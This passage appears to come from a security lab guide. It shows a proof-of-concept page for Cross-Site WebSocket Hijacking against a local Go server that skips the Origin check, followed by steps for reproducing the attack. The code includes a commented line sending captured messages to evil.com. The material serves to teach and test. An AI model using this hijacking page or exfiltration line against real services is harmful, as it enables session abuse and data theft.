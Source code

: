         ```HTML
        
        <!DOCTYPE **html**>
        <html>
        <head>
            <title>CSWH PoC</title>
        </head>
        <body>
            <h1>CSWH Attack Page</h1>
            <script>
                console.log('Attempting CSWH attack...');
                // Target the vulnerable WebSocket endpoint
                const ws = new WebSocket('ws://localhost:8080/ws-chat');
        
                ws.onopen = function() {
                    console.log('CSWH: WebSocket connection opened successfully from different origin!');
                    // Send a message as if it's the victim user
                    ws.send(JSON.stringify({ type: "cswh_message", text: "Message sent via CSWH!" }));
                    // If the application had session cookies, this message would be processed
                    // in the context of the victim's session.
                };
        
                ws.onmessage = function(event) {
                    console.log('CSWH: Received message:', event.data);
                    // Attacker could exfiltrate this data to their server, e.g.:
                    // fetch('http://evil.com/log?data=' + encodeURIComponent(event.data));
                };
        
                ws.onerror = function(error) {
                    console.error('CSWH: WebSocket error:', error);
                };
        
                ws.onclose = function() {
                    console.log('CSWH: WebSocket connection closed');
                };
            </script>
            <p>If you see 'CSWH: WebSocket connection opened successfully' in the console, the CSWH attack (due to missing Origin check) is successful.</p>
        </body>
        </html>
        ```
        
    2. **Simulate Victim Access:**
    Imagine a victim user is logged into `http://localhost:8080` (if it had authentication). For this PoC, simply having the server running is enough to test the Origin check.
    3. **Victim Visits Malicious Page:**
    Open `attacker.html` in the web browser.
    4. **Observe Browser Console and Server Logs:**
        - Open the browser's developer console on the `attacker.html` page. You should see:
            - `Attempting CSWH attack...`
            - `CSWH: WebSocket connection opened successfully from different origin!`
            - `CSWH: Received message: {"type":"cswh_message","text":"Message sent via CSWH!"}` (if the server echoes)
        - The Golang server logs will show a connection established and the message received, noting the origin if logged (e.g., `null` for `file:///` or `http://evil.com`). The key is that the `CheckOrigin` function in the vulnerable code returned `true`, allowing this cross-origin connection.

